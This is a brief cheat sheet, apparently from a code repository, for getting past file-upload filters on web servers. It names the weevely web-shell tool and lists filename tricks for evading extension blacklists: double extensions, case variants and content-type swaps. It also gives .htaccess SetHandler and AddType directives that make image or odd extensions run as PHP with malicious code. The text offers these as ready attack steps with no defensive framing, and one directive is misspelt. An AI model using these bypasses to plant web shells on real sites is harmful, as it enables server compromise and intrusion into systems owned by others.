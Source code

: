 ##Tool : weevely  -- Yes, thats all you need
[Github Weevely](https://github.com/epinna/weevely3)


##

upload.php			---	try to upload a simple php file
upload.php.jpeg 		--- 	To bypass the blacklist.
upload.jpg.php 			---	To bypass the blacklist. 
upload.php 			---	and Then Change the content type of the file to image or jpeg.
upload.php*			---	version - 1 2 3 4 5 6 7 
upload.PHP			---	To bypass The BlackList
upload.PhP			---	To bypass The BlackList
upload.pHp			---	To bypass The BlackList
upload .htaccess 		--- 	By uploading this [jpg,png] files can be executed as php with milicious code within it.


NOTE:	If you are not able to execute the .PHP file upload new .htaccess file in the
	same directory with data "AddType appilication/x-httpd-php PHP"


setHandler Method [.htaccess]
------------------------------

<FilesMatch "_php.gif">
SetHandler application/x-httpd-php
</FilesMatch>



AddType Method [.htaccess]
--------------------------

AddType application/x-httpd-php .lol

